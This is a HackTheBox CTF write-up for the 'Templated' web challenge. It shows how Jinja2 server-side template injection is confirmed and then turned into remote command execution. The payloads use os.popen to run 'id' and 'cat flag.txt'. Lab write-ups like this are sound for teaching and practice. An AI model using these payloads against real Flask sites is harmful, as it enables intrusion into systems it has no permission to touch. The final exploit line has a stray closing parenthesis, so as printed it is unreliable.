







# HackTheBox [LAB-challenge] (Web)
## CHALLENGE NAME : Templated

## Writeup by **`Arijit-Bhowmick`** aka **`sys41414141`**



### Challenge Description

`
Can you exploit this simple mistake?
`

## SOLUTION

Click on the `Start Instance` button to start the challenge.

The you are provided with an `web address`. Copy it and open it in another tab or browser.
In my case it was `http://46.101.92.17:31311`

### Homepage of the Webapp :




The webapp shows a message 
`# Site still under construction
Proudly powered by Flask/Jinja2`.

Here we can see that it says that it is made with `Flask/Jinja2`.

#
### Searching exploits  for  `Flask/Jinja2`:

I have started searching for exploits for **Flask/Jinja2**.
Then I came across 
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2

Here it says about the SSTI exploit.

#
### Test Exploit :

After modifying the provided url to `http://46.101.92.17:31311/{{41+41}}`

I have noticed that the returned result evaluates the value.



#
Then I came across:



#### Creating the exploit:

I have manipulated ``{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}``
step by step.






#### EXPLOIT Code:

```
http://46.101.92.17:31311/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
Format:

```
<Web app address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```
This is how I got the flag.

Just replace `<Web app address>` with the web address that you are provided.
In my case it was `http://46.101.92.17:31311`


